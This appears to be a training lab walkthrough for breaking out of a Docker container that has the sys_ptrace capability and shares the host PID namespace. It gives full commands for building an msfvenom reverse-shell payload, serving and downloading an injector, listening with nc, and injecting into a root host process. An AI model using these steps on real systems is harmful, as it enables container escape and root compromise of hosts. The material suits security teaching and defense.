









# Attacking Container Capabilities

In this scenario we will exploit a container with `sys_ptrace` capability running with host `PID` namespace. We will exploit these to breakout of the container and access the host system. We assume that the attacker already has access to the container for this scenario.

* Login to the container using below command. Ensure that you run this in the `CTF` vm 

```bash
docker exec -it sysmon bash
```



* Check for existing capabilities by running `capsh --print`



* Also the container has enabled `--pid=host` so we can access then host process using `top` command



> Since an attacker can list host processes and has the `sys_ptrace` capability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.

## Steps to attack

* Generate reverse shell payload using metasploit's `msfvenom` program. Replace the `192.168.56.3` with student vm IP address.

```bash
cd /home/student/linux-injector

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 -f raw -o payload.bin
```



* Send the exploit and injector program to the container using simple python server. Run the below command in student vm

```bash
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002
```



* Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the `sysmon` container. Ensure you replace the `192.168.56.3` with your student vm IP

```bash
curl -o linux-injector.tar.gz http://192.168.56.3:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector
```



* Start the `nc` listener to receive the connect back shell in student vm. Run the following command in student VM

```bash
nc -lvp 4444
```



* Now identify the process, which is running as `root` in the host system to gain root access for connect back. Run the following command inside CTF vm `sysmon` container

```bash
ps auxx | grep root | grep ping
```



```bash
./injector 2046 payload.bin
```

* On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container


